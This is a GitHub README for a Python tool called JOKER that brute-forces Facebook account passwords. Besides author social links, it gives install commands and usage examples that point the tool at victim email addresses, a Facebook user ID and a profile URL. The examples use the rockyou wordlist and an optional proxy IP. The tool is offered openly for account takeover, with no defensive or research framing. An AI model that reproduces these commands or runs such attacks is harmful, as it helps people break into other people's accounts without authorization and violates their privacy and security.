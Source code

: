 ## Find Fikrado on :
[![Github](https://img.shields.io/badge/Github-fikrado-yellow?style=for-the-badge&logo=github)](https://github.com/fikrado)
[![Instagram](https://img.shields.io/badge/IG-%40mr__yahye-red?style=for-the-badge&logo=instagram)](https://www.instagram.com/mr__yahe)
[![Messenger](https://img.shields.io/badge/telegram-blue?style=for-the-badge&logo=telegram)](https://t.me/fikrado_hacker)
[![Facebook](https://img.shields.io/badge/facebook-black?style=for-the-badge&logo=Facebook)](https://facebook.com/fikrado4048063)
<img height="500" src="https://elements-cover-images-0.imgix.net/599cf8df-69ea-42ee-ab6a-23e8d13624f3?auto=compress%2Cformat&fit=max&w=1019&s=0d7fb3fd2fdfba13dd2056a099b22dac">
# JOKER FACEBOOK BRUTAL FORCE ATTACK

-----------------------------------------------------------------------------------------------
### Is facebook burtalforce attack tool you can use it in this OS and applications 
-------------------------------------------------------------------------------------------------
### 1: KALI LINUX
### 2: ALL LINUX OS 
### 3: TERMUX 
### 4: ANY OS THAT PYTHON INSTALLED ON IT




----------------------------------------------------------------------------
## HOW TO INSTALL JOKER BURTAL FORCE
```
apt update

apt install git -y

pkg install python python2 && pip2 install requests mechanize

git clone https://github.com/fikrado/JOKER-burtal-force

cd JOKER-burtal-force

python joker.py

```
### 

------------------------------------------------------------------------------------------
## HOW TO USE JOKER BRUTAL FORCE



###

```
      python joker.py -t Victim@gmail.com -w /usr/share/wordlists/rockyou.txt
   
      python joker.py -t 100001013078780 -w C:\\Users\\Me\\Desktop\\wordlist.txt
     
      python jokere.py -t Victim@hotmail.com -w D:\\wordlist.txt -p 144.217.101.245:3129-
      
      python jokery.py -t Victim@gmail.com -s 1234567
     
      python joker.py -g https://www.facebook.com/Victim_Profile
     
```
###
# screan shot
<img width="600" src="/jk.PNG" >

